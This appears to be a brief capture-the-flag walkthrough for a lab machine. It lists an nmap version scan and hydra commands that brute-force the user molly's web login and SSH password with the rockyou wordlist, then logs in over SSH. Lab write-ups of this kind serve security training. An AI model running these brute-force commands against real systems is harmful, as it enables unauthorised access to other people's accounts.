

## **Enumeration**
>	- Using `nmap` to scan the machine's services and versions.
```
nmap -sV 10.10.143.80
```
>	- 
>	- Accessing the website on port `80`.
>	-Using `hydra` to crack molly's website password.
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.143.80 http-post-form '/login:username=^USER^&password=^PASS^:F=incorrect' -V
```
>	-
>	- Accessing with the found password to get the flag.
>	-Using `hydra` to crack molly's ssh password.
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.143.80 -t 4 ssh -V
```
>	- 
>	- Accessing the machine with `ssh molly@10.10.143.80` and the found password.